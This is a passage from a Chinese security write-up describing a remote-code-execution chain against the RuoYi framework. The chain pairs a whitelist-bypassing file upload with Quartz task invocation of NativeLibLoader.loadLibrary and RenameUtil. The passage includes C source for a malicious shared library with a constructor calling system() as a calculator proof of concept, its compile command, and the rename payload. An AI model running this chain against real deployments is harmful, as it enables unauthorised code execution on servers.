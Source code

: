 那么我们可以上传一个名字包含com.ruoyi.quartz.task字符串的文件  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWPba70icVbicQQUY31ctJXI9I8ecmQdacBllG82Sc9AbSiccA5YtL5rzsjElK1DlYtezIOhZUb9yAbw/640?wx_fmt=png&from=appmsg "")  
  
#### 0x4 RCE  
#### 结合导致RCE  
  
  
在java中存在一种机制叫做JNI，可以通过加载外部链接库，从而执行其中的  
构造函数  
  
  
而com.sun.glass.utils.NativeLibLoader的loadLibrary方法就可以去加载链接库，也是public修饰  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWPba70icVbicQQUY31ctJXI98kgGHGt6ENKXm17Hy4HTDnOSq7EHKdJxkBAxDFlDcWC7oYeGIs1Kibg/640?wx_fmt=png&from=appmsg "")  
  
  
�  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWPba70icVbicQQUY31ctJXI9EyUOe18FqYVIP9BwRymg3Jy3icLExYkyfvsOyt21LuReeWiaMVhx7SJA/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWPba70icVbicQQUY31ctJXI9USMh0WUaAO9aW6gCff5qwkOic4iajgy8rwP1uDVA7txIT4oqsUxPkmIQ/640?wx_fmt=png&from=appmsg "")  
  
  
注意他会自动在后面添加dylib等后缀，在不同的系统中可能有不同的后缀，并且要注意架构问题  
  
  
构造并上传链接库  
  
```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

__attribute__ ((__constructor__)) void angel (void) {
    // 调用 system 函数打开计算器应用程序
    system("open -a calculator");
}


//gcc -arch x86_64 -shared -o 1.dylib calc.c
//根据不同架构修改
```  
  
  
编译后上传该文件  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWPba70icVbicQQUY31ctJXI9ZBE2XA7bBIBfzUY6AQyEPcqIEfTf0CgnOclZxZRPMMWlJ1AJZVekjA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWPba70icVbicQQUY31ctJXI9yuJ7rpm9ENjGicgmT0T1gKeUE7MwOGicgTrY3Gvv2doKm7EkcdtVfcHw/640?wx_fmt=png&from=appmsg "")  
  
  
我们还需要修改文件名，可以使用RenameUtil类方法去对文件名进行修改  
  
```
ch.qos.logback.core.rolling.helper.RenameUtil.renameByCopying("/Users/Aecous/tmp/upload/2025/04/25/com.ruoyi.quartz.task_20250425182743A001.txt","/Users/Aecous/tmp/upload/2025/04/25/com.ruoyi.quartz.task_20250425182743A001.dylib");
```  
  